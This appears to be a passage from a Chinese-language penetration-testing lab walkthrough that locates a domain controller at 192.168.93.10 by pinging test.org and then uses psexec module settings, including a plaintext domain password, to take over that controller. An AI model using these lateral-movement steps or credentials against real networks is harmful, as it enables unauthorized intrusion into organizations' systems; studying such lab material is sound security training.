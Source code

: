 ![image-20250406231830525](./assets/image-20250406231830525.png)

DNS为test.org

一般来说DNS服务器就是域控主机



ping一下

```
ping test.org
```

![image-20250406231913437](./assets/image-20250406231913437.png)

确定域控主机为192.168.93.10



利用psexec上线域控主机

```
set smbdomain TEST.ORG
set SMBpass zxcASDqw123!!
set rhosts 192.168.93.10
run
```
